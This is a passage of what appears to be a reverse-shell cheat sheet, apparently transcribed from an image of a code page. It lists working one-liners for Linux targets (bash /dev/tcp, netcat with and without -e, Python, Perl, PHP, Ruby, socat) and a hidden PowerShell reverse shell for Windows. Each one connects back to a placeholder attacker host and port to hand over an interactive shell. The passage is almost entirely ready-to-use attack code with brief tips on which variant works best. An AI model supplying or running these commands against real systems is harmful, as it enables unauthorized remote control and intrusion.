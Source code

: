 2) Linux target one-liners

- Bash TCP (native bash; very common)
```
bash -c 'bash -i >& /dev/tcp/ATTACKER/PORT 0>&1'
```

- Netcat with -e (only if the target’s nc supports -e, e.g., traditional nc, ncat, BusyBox)
```
nc ATTACKER PORT -e /bin/sh
# or
ncat ATTACKER PORT -e /bin/bash
# or BusyBox
busybox nc ATTACKER PORT -e /bin/sh
```

- Netcat without -e (OpenBSD nc fallback using mkfifo)
```
rm -f /tmp/f; mkfifo /tmp/f
/bin/sh -i < /tmp/f 2>&1 | nc ATTACKER PORT > /tmp/f
```

- Python3 (preferred if available, spawns a pty directly)
```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER",PORT));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

- Perl
```
perl -e 'use Socket;$i="ATTACKER";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

- PHP (proc_open reliable)
```
php -r '$s=fsockopen("ATTACKER",PORT);$p=proc_open("/bin/sh -i",[0=>$s,1=>$s,2=>$s],$pipes);'
```

- Ruby
```
ruby -rsocket -e 'f=TCPSocket.open("ATTACKER",PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

- socat (best interactive TTY if socat exists on target; use socat listener above)
```
socat TCP:ATTACKER:PORT EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
```

3) Windows target one-liners

- PowerShell TCP reverse shell (works on vanilla Windows)
```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "$a='ATTACKER';$p=PORT;$c=New-Object System.Net.Sockets.TCPClient($a,$p);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length))-ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$sb=(iex $d 2>&1 | Out-String);$sb2=$sb+'PS ' + (pwd).Path + '> ';$o=([Text.Encoding]::ASCII).GetBytes($sb2);$s.Write($o,0,$o.Length)}"
```
